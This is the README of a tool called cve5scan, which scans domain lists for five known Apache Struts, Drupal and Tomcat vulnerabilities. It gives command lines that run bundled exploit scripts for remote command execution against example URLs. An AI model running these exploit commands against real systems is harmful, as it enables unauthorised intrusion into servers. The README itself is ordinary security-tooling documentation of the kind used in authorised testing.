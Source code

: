 *cve5scan*
==========
### 5 CVE scan and exploit
The mission of this program  the
Scanning list of domain from 5
known security vulnerabilities listed with the source below

# **Use** #
*Installation :* 

`sudo chmod +x setup.sh`

`sudo chmod +x cve5scan.sh`
               
`./setup.sh`

`Run: ./cve5scan.sh <domainlist.txt>`

If there is a result, it is stored in a output folder

![alt text](https://raw.githubusercontent.com/raoufmaklouf/cve5scan/master/Screenshot%20at%202020-02-05%2013-40-55.jpg)


# **exploit** #
*CVE-2017-5638 :* `python cve/struts-pwn/struts-pwn.py --url 'http://example.com/struts2-showcase/index.action' -c 'id'`

read more: cve/struts-pwn/README.md & https://github.com/mazen160/struts-pwn

*CVE-2017-9805 :* `python cve/struts-pwn_CVE-2017-9805/struts-pwn.py --exploit --url 'http://example.com/struts2-rest-showcase/orders/3' -c 'touch /tmp/struts-pwn'`

read more: cve/struts-pwn_CVE-2017-9805/README.md & https://github.com/mazen160/struts-pwn_CVE-2017-9805

*CVE-2018-11776 :* `python cve/struts-pwn_CVE-2018-11776/struts-pwn.py --exploit --url 'http://example.com/demo/struts2-showcase/index.action' -c 'id'`

read more: cve/struts-pwn_CVE-2018-11776/README.md & https://github.com/mazen160/struts-pwn_CVE-2018-11776

*CVE-2018-7600 :* `ruby cve/Drupalgeddon2-CVE-2018-7600.rb https://example.com`

read more: https://github.com/dreadlocked/Drupalgeddon2/


*CVE-2017-12617 :* `python cve/Tomcat-CVE-2017-12617.py -u http://example.com`

read more: https://github.com/cyberheartmi9/CVE-2017-12617

### CVE Supported ###
--struts-pwn :`CVE-2017-5638`   source: https://github.com/mazen160/struts-pwn

--struts-pwn :`CVE-2017-9805`   source: https://github.com/mazen160/struts-pwn_CVE-2017-9805

--struts-pwn :`CVE-2018-11776`  source: https://github.com/mazen160/struts-pwn_CVE-2018-11776

--Drupal     :`CVE-2018-7600`   source: https://github.com/dreadlocked/Drupalgeddon2/

--tomcat     :`CVE-2017-12617`  source: https://github.com/cyberheartmi9/CVE-2017-12617


# **Author** #
*raouf maklouf*
* Facebook: [https://www.facebook.com/raouf.maklouf]
* Linkedin: [https://www.linkedin.com/in/raouf-maklouf-505a061a0/]
